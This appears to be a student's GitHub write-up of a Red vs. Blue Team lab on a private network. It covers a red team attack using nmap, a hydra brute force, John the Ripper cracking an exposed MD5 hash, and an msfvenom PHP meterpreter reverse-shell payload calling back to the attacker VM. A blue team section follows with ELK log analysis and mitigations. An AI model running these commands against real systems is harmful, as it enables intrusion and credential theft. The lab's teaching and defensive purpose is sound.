







## Red vs. Blue Team Project

- **Network Topology**:

  
  - The following machines live on the network address range 192.168.1.0/24:
    - **Kali**: `192.168.1.90`
    - **ELK**: `192.168.1.100`
    - **Target**: `192.168.1.105`

### **Red Team - Security Assessment**

#### **Information Gathering**

Given the target IP address, the first step was to identify which ports are open and which services are running on those ports. I used Nmap to perform a version scan, default script scan, and saved the output to a file.

- **Command Used:**

```bash
	nmap -sC -sV -oN nmap_target 192.168.1.105.png
```
  

- **Running Services"
  - `22/tcp ssh OpenSSH 7.6p1 Ubuntu`
  - `80/tcp http Apache httpd 2.4.29`


After casually browsing through the webserver on port 80, I discovered a hidden directory, company_folders/secret_folder and a list of users.

  

#### **Exploitation**

The secret_folder requires authentication to access. I used hydra to perform a brute force attack.
- **Command Used:**
```bash
	hydra -l ashton -P rockyou.txt -s 80 -f 192.168.1.105 http-get /company_folders/secret_folder/
```

  

The secret_folder contained a guide to connecting to the internal webdav server.
- **Credentials:** `ryan:d7dad0a5cd7c8376eeb50d69b3ccd352`
- `dav://192.168.1.105/webdav/`

Ryan user's password was hashed using md5, so I used John the Ripper to crack the hashed password.
- **Command Used:**
```bash
	john --format=raw-md5 hash
```

  

Now that I have the ability to upload a file onto the server, I generated a PHP reverse meterpreter payload using msfvenom and uploaded it to the webdav server.
- **Command Used:**
```bash
	msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=4444 -o shell.php
```

After successfully uploading the payload, I accessed the payload on the webserver to start a meterpreter session to the listener.

  
  
  


### **Blue Team - Incident Analysis**
  
#### **ELK Stack**
A considerable amount of data is available in the logs. Specifically, evidence of the following was obtained upon inspection:
    - Traffic from attack VM to target, including unusually high volume of requests
    - Access to sensitive data in the `secret_folder` directory
    - Brute-force attack against the HTTP server
    - POST request corresponding to upload of `shell.php`

  - **Identifying Unusually High Volume of Requests**: Logs indicate an unusual number of requests made to the URL `http://192.168.1.105/company_folder/secret_folder/`. The PacketBeat Flow graph from the dashboard shows that the attack began around 17:50. Note that `401 Unauthorized` is the top response and few `200 OK`, `207 Multi-Status`, and `404 Not Found` response status codes.

  

  

  

    - From the Blue Team perspective, 4 status codes of `200 OK` after 436,504 `401 Unauthorized` may be concerning. It indicates that the attacker was able to successfully gain credentials and access restricted resources.

  - **Access to Sensitive Data in `secret_folder`**: From the Kibana Discover page, a query for the resource `/company_folders/secret_folder/` also displays that `connect_to_corp_server` file had been accessed.

  

  - **HTTP Brute Force Attack**: Searching for `url.path: /company_folders/secret_folder/` shows conversations involving the sensitive data. Specifically, the results contain requests from the brute-forcing tool`Hydra`, identified under the `user_agent.original` section:

      

  - **WebDAV Connection & Upload of `shell.php`**: The logs also indicate that an unauthorized actor was able to access protected data in the `webdav` directory. The `passwd.dav` and `shell.php` was accessed with `GET` request. After the `shell.php` file was requested, an unknown connection was made from source IP `192.168.1.105` to `192.168.1.90:4444`.

      

      

#### **Mitigation**

  - Mitigation steps for each vulnerability above are provided below.
    - **High Volume of Traffic from Single Endpoint**
      - Rate-limiting traffic from a specific IP address would reduce the web server's susceptibility to denial of service conditions. It is also recommended to set up an alarm to trigger alerts against suspiciously fast series of requests that may be indicative of scanning.
    - **Access to sensitive data in the `secret_folder` directory**
      - The `secret_folder` directory should be protected with stronger authentication. It is also a good idea remove the secret_folder itself from the web server to prevent unauthorized actors from accessing the directory.
    - **Brute-force attack against the HTTP server**
      - Use the combination of stronger password policy, account timeout mechanism, account lockout mechanism, and CAPTCHA which are all good defensive mechanism to prevent brute force attacks against the HTTP server.
    - **POST request corresponding to upload of `shell.php`**
      - File uploads should require authentication. Create a whitelist of acceptable file formats to prevent executable files being uploaded to the server.

### Presentation

A sample slideshow is attached:
- [Report: Red vs. Blue Project] https://docs.google.com/presentation/d/1LOPgsDdWqI1YVW-HfsbMOTmNoviaAGlYJtnKYv28ckY/edit?usp=sharing